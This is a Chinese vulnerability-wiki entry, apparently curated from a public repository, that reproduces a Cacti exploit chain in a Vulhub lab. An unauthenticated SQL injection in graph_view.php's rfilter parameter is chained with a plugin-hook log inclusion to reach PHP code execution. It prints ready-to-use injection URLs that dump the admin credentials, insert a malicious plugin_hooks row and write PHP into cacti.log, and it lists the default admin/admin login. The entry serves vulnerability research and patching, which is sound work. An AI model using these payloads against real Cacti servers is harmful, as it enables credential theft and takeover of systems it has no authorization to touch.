



# Cacti graph_view SQL 注入→plugin_hooks日志包含远程代码执行链

## 条目说明

- 对象与具体问题：Cacti；graph_view SQLi→plugin_hooks日志包含RCE链
- 版本、配置及部署条件：CVE39361列1.2.24，31459<=1.2.26；需guest启用才能无认证
- 认证与权限前提：guest启用则未认证SQLi；后续通过数据库改插件钩子
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 明确错分致远OA，应该Cacti
- 两个CVE各自范围应保留，不能把<=1.2.26当整个链都可用
- 过程改plugin_hooks和污染日志有持久副作用；关键guest前提叙述完整
- 修复只写修复版本而没有分别列版；完整响应仅图片

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

Cacti 是一个全面的网络图形化解决方案，旨在利用 RRDTool 的数据存储和图形功能，为网络管理员提供直观的界面来监控和分析网络性能数据。

在 Cacti 1.2.24 版本中，graph_view.php 文件存在一个严重的漏洞，当启用 guest 用户时，未经任何身份验证的攻击者通过 'rfilter' 参数即可执行 SQL 注入攻击，最终可能导致远程代码执行。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg
- https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv

### 漏洞影响

```
[CVE-2023-39361] Cacti 1.2.24
[CVE-2024-31459] Cacti <= 1.2.26
```

### 环境搭建

Vulhub 执行以下命令启动 Cacti 1.2.24 服务器：

```
docker compose up -d
```

服务器启动后，访问 `http://your-ip:8080` 进入 Cacti 界面。默认凭据为 admin/admin。

请以管理员身份登录并按照初始化说明进行操作。只需重复点击 " 下一步 " 按钮，直到看到成功页面。

该漏洞如果需要未认证利用，必须启用 guest 用户。你可以以管理员身份登录，导航至 `Configuration -> Authentication` 页面，并启用 guest 用户：




### 漏洞复现

该漏洞位于 `graph_view.php` 文件中的 `grow_right_pane_tree` 函数内。当 action 参数设置为 'tree_content' 时，用户输入的 rfilter 参数由 `html_validate_tree_vars` 函数验证。然而，这种验证仅确保输入是有效的正则表达式，无法防止 SQL 注入。

要利用此漏洞，向 graph_view.php 端点发送带有以下参数的请求：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

可见，数据库信息和管理员账号密码已被爆出：




由于 Cacti 支持堆叠查询，你可以利用此漏洞结合 [CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv) 实现本地文件包含。

首先，添加一个指向 `log/cacti.log` 文件的新插件钩子：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

然后，利用报错 SQL 注入，将 PHP 代码写入 `log/cacti.log` 文件：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

此时，访问登录页面时，PHPINFO 函数将执行并显示：




### 漏洞修复

- 升级至修复版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
